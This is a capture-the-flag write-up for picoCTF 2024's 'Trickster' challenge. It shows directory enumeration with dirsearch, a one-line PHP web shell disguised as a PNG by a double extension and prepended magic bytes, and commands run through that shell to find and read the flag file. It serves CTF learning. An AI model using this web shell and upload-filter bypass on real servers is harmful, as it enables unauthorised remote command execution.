







### Trickster

Author: Junias Bonou
#Medium #web_exploitation #picoCTF2024 #browser_web_shell 
#### Description

I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:53515/)!

##### Solution:
search the web directory using dirsearch

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/dirsearch]± ● master
└─$ python3 dirsearch.py -u http://atlas.picoctf.net:58821/


  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11730

Output: /home/kali/Downloads/dirsearch/reports/http_atlas.picoctf.net_58821/__24-09-29_00-37-51.txt

Target: http://atlas.picoctf.net:58821/

[00:37:51] Starting: 
[00:38:14] 403 -  285B  - /.ht_wsr.txt                                               
[00:38:14] 403 -  285B  - /.htaccess.bak1                                            
[00:38:14] 403 -  285B  - /.htaccess.orig                                            
[00:38:14] 403 -  285B  - /.htaccess.sample
[00:38:15] 403 -  285B  - /.htaccess.save
[00:38:15] 403 -  285B  - /.htaccess_orig
[00:38:15] 403 -  285B  - /.htaccess_extra
[00:38:15] 403 -  285B  - /.htaccessOLD2                                             
[00:38:15] 403 -  285B  - /.htaccess_sc
[00:38:15] 403 -  285B  - /.htaccessOLD                                              
[00:38:15] 403 -  285B  - /.htaccessBAK                                              
[00:38:15] 403 -  285B  - /.htm
[00:38:15] 403 -  285B  - /.html                                                     
[00:38:15] 403 -  285B  - /.htpasswd_test
[00:38:15] 403 -  285B  - /.htpasswds                                                
[00:38:15] 403 -  285B  - /.httr-oauth
[00:41:44] 200 -   62B  - /robots.txt                                                 
[00:41:49] 403 -  285B  - /server-status/                                             
[00:41:49] 403 -  285B  - /server-status
[00:42:17] 301 -  333B  - /uploads  ->  http://atlas.picoctf.net:58821/uploads/       
[00:42:17] 403 -  285B  - /uploads/                                                   
     
Task Completed

```

```cs
http://atlas.picoctf.net:58821/robots.txt

User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

```css
http://atlas.picoctf.net:58821/instructions.txt

Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match 
	(not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

now here try to upload this as shell.png.php
 it will upload successfully but when you try to execute command it will not work
so make it work we need to follow the instruction
```css
make sure the magic bytes match 
	(not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
```
now open hexeditor and replace original hexadecimal with magic hexadecimal



problem here if you try to edit then your PHP code will not work so we need to modify PHP code first

```php
hello
<?php echo "Shell";system($_GET['cmd']); ?>
```
now open hex editor again


add magic hexadecimal  `50 4E 47`

save and upload again and execute command




```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=whoami

PNGlo Shellwww-data
```



```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=find%20/%20-name%20%22*.txt%22

PNGlo Shell/usr/lib/python3.9/LICENSE.txt /usr/local/lib/php/.channels/.alias/pear.txt /usr/local/lib/php/.channels/.alias/pecl.txt /usr/local/lib/php/.channels/.alias/phpdocs.txt /usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt /usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt /usr/share/perl/5.32.1/Unicode/Collate/keys.txt /usr/share/perl/5.32.1/unicore/Blocks.txt /usr/share/perl/5.32.1/unicore/NamedSequences.txt /usr/share/perl/5.32.1/unicore/SpecialCasing.txt /var/www/html/MQZWCYZWGI2WE.txt /var/www/html/instructions.txt /var/www/html/robots.txt 
```




```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=cat%20/var/www/html/MQZWCYZWGI2WE.txt

PNGlo Shell/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b} */
```
